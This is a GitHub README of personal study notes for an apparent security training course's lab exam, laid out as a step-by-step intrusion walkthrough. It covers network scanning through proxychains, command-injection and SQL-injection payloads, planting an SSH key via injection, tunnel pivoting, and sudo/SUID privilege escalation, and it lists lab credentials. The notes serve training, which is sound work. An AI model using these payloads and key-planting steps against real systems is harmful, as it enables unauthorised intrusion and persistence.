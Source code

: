 # SecCCTC
NEW Security CCTC


OP station LINUX 10.50.21.175 

uploads 10.50.22.59/uploads for more info
______________________________
17
JORO-501-W
dSMTntzAUGo3pnS
10.50.23.20
____________________________

http://10.50.20.103:8000/challenges  < -- - challenges 



Needed commands
_______________________________________________________
1- for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
2- proxychains nmap -Pn -sT 10.0.0.X -p 1-10000 -T5   or -iL --openm
3- proxychains nmap -Pn -sT 10.0.0.X -p 80 --script http-enum.nse    < -- finds other webpages

xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboar
___________________________________________

make a SSH KEY 

On opstation
ssh-keygen -t rsa -b 4096
cat .ssh/id_rua.pub
ssh www-data@ip  ( or whatever the webuser is)
9- find the userers in the /etc/password then navigate down to find the file with ls -la 
10 - move the map to the host system 

try to insert an your own key after trying tom’ OR 1 = ‘1 in both fields:
		1 -In webpage box:    < mkdir /users/home/directory/.ssh>  or other path
		2 – echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys 
		3-  cat /users/home/directory/.ssh/authorized_keys 


  -______________________________________
  to get to second box student@ip -L 41711:192.168.28.120:4242
  then new tunnle of ssh student@127.0.0.1 -D 9050 




__________________________________________________________________
        Windows Priv esculation: Importatant to know
===First THING TO DO IS SHOW HIDDEN FILES!====
	File Explorer > File > Hidden files
 	Always use ls -la

Next: Search: ==Task Scheduler===
	search bar > Task Scheduler  > new tasks are listed at top > Look in TS Library ..ignore one_drive stuff > Look at TRIGGERS Tab > Actions tab >  
 		 OR  schtasks /query /fo LIST /v  > powershell  >schtasks /query /fo LIST /v  | Select-String  -Pattern "Task To Run" | find /i /v "com handler"  > Start at the top look for putty.exe
  





xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboard



___________________________________________________________________




FOR TEST
When given an IP
1 - <nmap -Pn -sT 10.0.0.X -p- -T5 >any ip that is given (Pivot box) 
2 – any port 80s or http ports run : proxychains nmap -Pn -sT 10.0.0.X -p 80 --script http-enum.nse  to find extra webpages
3- Try all /webstuff	
	    /more webstuff
		/lostawebstuff
  ____________________________________________________________________________________________________________________________
  ONCE ON A WEBPAGE
4- The  Box that has inputs : hit go button. Then past in the Possible_end.txt in one box / To_war in another grab info for flag,
5- On the same box, command inject one of them try: ; ls -la || ; /whoami  || ; pwd  || ; cat /etc/passwd || ; cat /etc/hosts
6- grab all users from the cated etc/passwd and save them someplace (www-var ect) 
7 – try to insert an your own PUB_key after trying tom’ OR 1 = ‘1 in both fields:
		1 -In webpage box:    < mkdir /users/home/directory/.ssh>
		2 – echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys 
		3-  cat /users/home/directory/.ssh/authorized_keys 
8- from your Lin_ops box you should be able to <ssh user@ip> without a password
***********Note: I would suggest making a new key: <ssh-keygen -t rsa> ************
__________________________________________________________________________________________________________________________

IF YOU FIND THE MAP WITH IP ADDRESS.. Make sure to EOM or scp the map to view
9- look at the map that you found for IP address.  Located at the bottom of the mad (Hint: there is also a flag)
__________________________________________________________________________________________________________________________

Tunnleing creationg and scanning for the new IPs
10 – Create a Dynamic tunnel so you can scan those IP’s (optional) IF not go to step 11. (ssh www-data@ip -D 9050)
11 – run <for i in {96..127}; do (ping -c 1 10.0.0.$i | grep "bytes from" &); done> in pivot box you got into for each IP address. (www-data box)
12 – run proxychains nmap -Pn -sT 10.0.0.X -p 1-10000 -T5 on each of the new IP’s you found. Notate any ports then run step 2 to see if there is any info for any webpages found 
13 – navigate to the new wepage and repeat step 3 
14 – Look at <page  sources> for any links as well
15 – if you come across a box that looks like it is a table: Try eploiting the URL Bar:
	A-	First try <coolwebsite.com.php? selection=1 Or 1=1> or 2 or 3 ect until tables ALL drop
	B-	Any columns displayed, put them in order <selection=<# your found> UNION SELECT 1,2,3 ect>
	C-	Use the GOLDEN STATEMENT < SELECT table_schema,table_name,column_name, 4 FROM information_schema.columns;>
 __________________________________________________________________________________________________________________________

 
PART 2
1 – In your Lin-OPS TRY EVERY COMBINATION AND PASSEORD that is given!! You should get 
A-	Linux box
B-	Windows box
_______________________________________________________________________________________


WINDOWS BOX: 
1-	to access the Windows box first run a scan on the IP address that is given <step 11>
2-	run an NMAP on each new IP you found <step 1>
3-	find the box the you logged into as a windows user, look for the port that can run RDP (3889)
4-	RDP into that box 
____________________________________________________________________________________________________
a.	Set up your L tunnel <ssh www-data@jumpIP -L 1111:WinBoxIP:3389>
b.	xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboard
5-	Look around for files in USERS. Go to < C drive >> Users > Look for a sus folder
6-	For Persistence  check the regedit < search bar – regedit – follow the HKEY path  -- look at all the paths there and make sure to copy the ENTIRE path of the sus one. The file path is the last </name.here>
7-	For Called Program, follow the path:  <C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -executionpolicy bypass -windowstyle hidden -NoExit -file "C:\Program Files\scripts\kpersky_start.ps1">
8-	To get into admin home: You need to grab the file that they will give us and transfer it from your HOST to your WINDOWS: (Log into your account and download it)
	a.	On the windows box, open a webpage, navigate to the test website, download file. DONE use the account name and pass they give ya
____________________________________________________________________________________________________

Linux Explotaition
192.168.28.10 Kmichae pass MrMeeseeks 
1- sudo -l  < -- if this works goto GTFO webpage and search for the exploit! Copy past exploit then type <bash> for a esculated shell.
2 –<Bash> then ls -la 
3 you will see exploit.this
4- ./exploitthis AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
____________________________________________________________________________________________________

For inside root dir, 
1-	Log in as the user, 
2-	Sudo -l 
3-	Look for set UID and GUID
4-	Use the  find / -perm command <command here>
5-	A list of binaries will show
6-	On linops, run the same exact command and compare both of them Find the one that is not on one of the systems
7-	Then go to GTFO and look up that one and reserc the exploit
8-	 Make sure you do the intire path -p 
5 – Next follow buffer overflow steps.
For what program can give you higher priv, mak sure you find the buffer overflow  file in one of the questions

1-	To see what is inside the root dierectory
2-	2 find what Binary used 
POST exploitation
	1 – To view running process <ps -elf > look for one that ryscslogd
3-	Cat /ect/rcyslog.conf  for flag in comments
4-	To find the password use the find command find / iname “password” -file the cat the full path to file 
